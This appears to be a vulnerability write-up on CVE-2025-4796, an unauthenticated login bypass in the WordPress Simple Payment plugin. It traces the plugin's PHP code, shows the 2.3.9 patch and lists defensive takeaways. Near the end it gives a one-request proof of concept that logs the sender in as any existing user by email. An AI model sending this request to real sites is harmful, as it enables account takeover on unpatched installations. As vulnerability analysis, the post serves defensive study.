


<!--more-->

## CVE & Basic Info

* **CVE ID**: [CVE-2025-4796](https://www.cve.org/CVERecord?id=CVE-2025-4796)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: 1.3.6–2.3.8
* **Patched Versions**: 2.3.9
* **CVSS Severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Simple Payment Plugin](https://wordpress.org/plugins/simple-payment/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – Simple Payment**:

  * `2.3.8` – **vulnerable**
  * `2.3.9` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers an action hook:

```php
add_action( 'parse_request', [ $this, 'callback' ] );
```

`parse_request` is an action hook that is called very early in the request processing flow, after WordPress has parsed the URL (query vars) and before the database query (`WP_Query`) is executed.

When a request comes in, the `callback` function will be invoked to handle the corresponding request.

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function callback() {
    $callback = parse_url( $this->callback );
    $info     = parse_url( $_SERVER['REQUEST_URI'] );

    if ( isset( $info['path'], $callback['path'] ) && $info['path'] != $callback['path'] ) return;

    $ops = explode( '/', $info['path'] );

    if ( !( isset( $_REQUEST[ self::OP ] ) || ( count( $ops ) == 4 && strtolower( $ops[1] ) == 'sp' ) ) ) return;

    $url = null;

    $engine = isset( $_REQUEST['engine'] )
        ? sanitize_text_field( $_REQUEST['engine'] )
        : ( isset( $ops[2] ) && $ops[2] ? $ops[2] : self::param( 'engine' ) );

    $op = isset( $_REQUEST[ self::OP ] )
        ? strtolower( sanitize_text_field( $_REQUEST[ self::OP ] ) )
        : strtolower( isset( $ops[3] ) ? $ops[3] : '' );

    try {
        switch ( $op ) {
            case self::OPERATION_SUCCESS: // success
                ...
                try {
                    if ( isset( $_REQUEST['payment_id'] ) && $_REQUEST['payment_id'] ) {
                        $params = array_merge( $this->fetch( $_REQUEST['payment_id'] ), $_REQUEST );
                    } else {
                        $params = $_REQUEST;
                    }

                    $this->post_process( $params, $engine );
                    do_action( 'sp_payment_success', $params );

                } catch ( Exception $e ) {
                    $status[ self::OP ] = self::OPERATION_ERROR;
                    if ( trim( $e->getCode() ) )    $status['status']  = trim( $e->getCode() );
                    if ( trim( $e->getMessage() ) ) $status['message'] = self::set_message( trim( $e->getMessage() ) );

                    $url = $this->error(
                        isset( $status ) ? $status : $_REQUEST,
                        isset( $status['status'] ) ? $status['status'] : null,
                        $e->getMessage()
                    );
                    break;
                }
                break;
            ...
        }
    } catch ( Exception $e ) {
        ...
    }
    ...
}
```

Inside `callback()`, the plugin checks whether the current URL matches the configured callback URL. If it does not match, it immediately returns.

```php
if ( isset( $info['path'], $callback['path'] ) && $info['path'] != $callback['path'] ) return;
```

The plugin parses the path (`REQUEST_URI`) into parts (`$ops`) and validates whether the request is legitimate:

* There is an `op` parameter in `$_REQUEST`, or
* The URL has the structure `/a/b/`.

```php
if ( !( isset( $_REQUEST[ self::OP ] ) || ( count( $ops ) == 4 && strtolower( $ops[1] ) == 'sp' ) ) ) return;
```

The plugin determines:

* `$engine`: taken from the request, from the URL, or from the default configuration.
* `$op`: the current operation.

```php
$engine = isset( $_REQUEST['engine'] )
        ? sanitize_text_field( $_REQUEST['engine'] )
        : ( isset( $ops[2] ) && $ops[2] ? $ops[2] : self::param( 'engine' ) );

$op = isset( $_REQUEST[ self::OP ] )
    ? strtolower( sanitize_text_field( $_REQUEST[ self::OP ] ) )
    : strtolower( isset( $ops[3] ) ? $ops[3] : '' );
```

When searching with the keyword `SimplePayment\\Engines`, we can see the list of declared engines.


The plugin processes logic based on `$op` using a switch statement.
When `$op` is `success`:

* If `payment_id` exists, the plugin calls `$this->fetch()` to retrieve payment information and merges it with request data.
* If `payment_id` does not exist, it directly uses data from `$_REQUEST`.

After preparing `$params`, the plugin calls `post_process($params, $engine)`.

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function post_process( $params = [], $engine = null ) {
    $this->setEngine( $engine ? : $this->param( 'engine' ) );
    $params = apply_filters( 'sp_payment_post_process_filter', $params, $this->engine );
    if ( parent::post_process( $params ) ) {
      $args = [
        'status' => self::TRANSACTION_SUCCESS
      ];
      if ( $this->engine->confirmation_code) $args['confirmation_code'] = $this->engine->confirmation_code;
      if ( $this->engine->payments) $args['payments'] = $this->engine->payments;
      if ( $this->engine->amount) $args['amount'] = $this->engine->amount;
      self::update( $this->payment_id ? : $this->engine->transaction, $args , !$this->payment_id );
      $a = $this->param('user_create');
      $b = $this->param('user_create_step');
      if ( $this->param('user_create') != 'disabled' && $this->param('user_create_step') == 'post' && !get_current_user_id()) $this->create_user($params);
      do_action( 'sp_payment_post_process', $params, $this->engine );
      return( true );
    }
    return( false );
}
```

This function sets the engine (based on the declared engines) and then checks the condition:

```php
parent::post_process( $params )
```

```php {title="SimplePayment.php v2.3.8" data-open=true hl_lines=[]}
function post_process($params = []) {
    if ($this->engine->post_process($params)) {
      $this->status = self::TRANSACTION_SUCCESS;
      // TODO: run sucess webhook if necessary -
      return(true);
    } else {
      $this->status = self::TRANSACTION_FAILED;
      // TODO: run failed webhook if necessary.
    }
    return(false);
}
```

It continues by calling `$this->engine->post_process($params)`.

```php {title="engine_file v2.3.8" data-open=true hl_lines=[]}
public function post_process($params) {
    $this->transaction = isset( $_REQUEST['lowprofilecode'] ) ? $_REQUEST['lowprofilecode'] : $params[ 'transaction_id' ];
    $response = $_REQUEST;
    $this->save([
      'transaction_id' => $this->transaction,
      'url' => ':post_process',
      'status' => isset($response['ResponseCode']) ? $response['ResponseCode'] : $response['response_code'],
      'description' => isset($response['Description']) ? $response['Description'] : null,
      'request' => json_encode($params),
      'response' => json_encode($response)
    ]);
    if ($params['Operation'] == 2 && isset($params['payments']) && $params['payments'] == "monthly") {
      if ($this->param('recurr_at') == 'post' && $this->param('reurring') == 'provider') return($this->recur_by_provider($params));
    }
    // TODO: update confirmation code con status
    //$this->confirmation_code = $response['confirmation_code'];
    return($_REQUEST['ResponeCode'] == 0);
}
```

This function:

* Saves the transaction, request, and response.
* Handles recurring logic (if any).
* Returns `true` if the transaction is successful.

If the return value is `true`, the function continues to check the user creation condition:

```php
if (
    $this->param( 'user_create' ) !== 'disabled' &&
    $this->param( 'user_create_step' ) === 'post' &&
    ! get_current_user_id()
) {
    $this->create_user( $params );
}
```

Conditions:

* `user_create ≠ disabled`
* `user_create_step = post`
* No user is currently logged in (`!get_current_user_id()`)

These two options can be changed in the Admin Dashboard:



When all conditions are satisfied, the system calls:

```php
$this->create_user( $params );
```

```php {title="simple-payment-plugin.php v2.3.8" data-open=true hl_lines=[]}
function create_user($params) {
    $email = isset($params[self::EMAIL]) ? $params[self::EMAIL] : false;
    if (!$email) return(false);
    $user_id = email_exists($email);
    if (!$user_id) {
        $username = isset($params[self::USERNAME]) ? $params[self::USERNAME] : false;
        $user_id = $username ? username_exists($username) : false;
        if (!$user_id) {
          $username = isset($params[self::FIRST_NAME]) ? $params[self::FIRST_NAME] : false;
          if (!$username) $username = isset($params[self::LAST_NAME]) ? $params[self::LAST_NAME] : false;
          if (!$username) $username = isset($params[self::FULL_NAME]) ? explode(' ', $params[self::FULL_NAME])[0] : false;
          if (!$username) $username = wp_generate_password(12, false);
          $username = $this->generate_unique_username(strtolower($username));
          if ($this->param('user_create_step') == 'register') $user_id = register_new_user($username, $email);
          else $user_id = wp_create_user($username, wp_generate_password(12, false), $email);
          do_action('sp_user_created', $user_id, $params);
        }
    }
    if ($user_id) wp_set_auth_cookie($user_id);
    return($user_id);
}
```

The function checks the email obtained from the request. If the email already exists in the system, the function retrieves the corresponding user ID and assigns it to `$user_id`.

The dangerous part is that when `$user_id` already has a value, the function `wp_set_auth_cookie()` will be called to set a login cookie for that user, meaning the user can be automatically logged in without any additional authentication.
⇒ **Bypass Vulnerability**

The patch in `v2.3.9` removes the cause of the login bypass by changing how `wp_set_auth_cookie()` is called.

```php {title="simple-payment-plugin.php v2.3.9" data-open=true hl_lines=[]}
function create_user( $params ) {
    $email = isset( $params[ self::EMAIL ] ) ? $params[ self::EMAIL ] : false;
    if ( ! $email ) return false;

    $user_id = email_exists( $email );

    if ( ! $user_id ) {
        $username = isset( $params[ self::USERNAME ] ) ? $params[ self::USERNAME ] : false;
        $user_id  = $username ? username_exists( $username ) : false;

        if ( ! $user_id ) {
            ...
            wp_set_auth_cookie( $user_id );
        }
    }

    if ( $user_id ) {
        // TODO: Login should be handled by developer implementation.
        // wp_set_auth_cookie( $user_id );
        do_action( 'sp_user_created', $user_id, $params, true );
    }

    return $user_id;
}
```

Only sets the cookie for newly created users.

## Flow


## Proof of Concept (PoC)

Send request:


```http
POST /a/b/ HTTP/1.1
Host: localhost

op=success&engine=Cardcom&user_create_step=post&user_create=enable&email=admin@gmail.com
```

## Conclusion

CVE-2025-4796 occurs because the plugin processes payment callbacks via `parse_request` without any authentication mechanism. An attacker can send a forged request to trigger the `OPERATION_SUCCESS` flow and call `create_user()`.

In versions ≤ 2.3.8, if the email already exists, the plugin retrieves the `user_id` and directly calls `wp_set_auth_cookie()`, allowing login to any account without authentication, leading to an Authentication Bypass.

Version 2.3.9 removes automatic login for existing users, fixing the root cause of the vulnerability.

## Key Takeaways

* Do not handle sensitive logic on unauthenticated requests.
* Do not call `wp_set_auth_cookie()` based on user-supplied data.
* Clearly separate user creation and login.
* Be cautious when using early hooks such as `parse_request`.

## References

[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Simple Payment Plugin 1.3.6–2.3.8 is vulnerable to a high priority Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/simple-payment/vulnerability/wordpress-simple-payment-plugin-1-3-6-2-3-8-authentication-bypass-vulnerability)
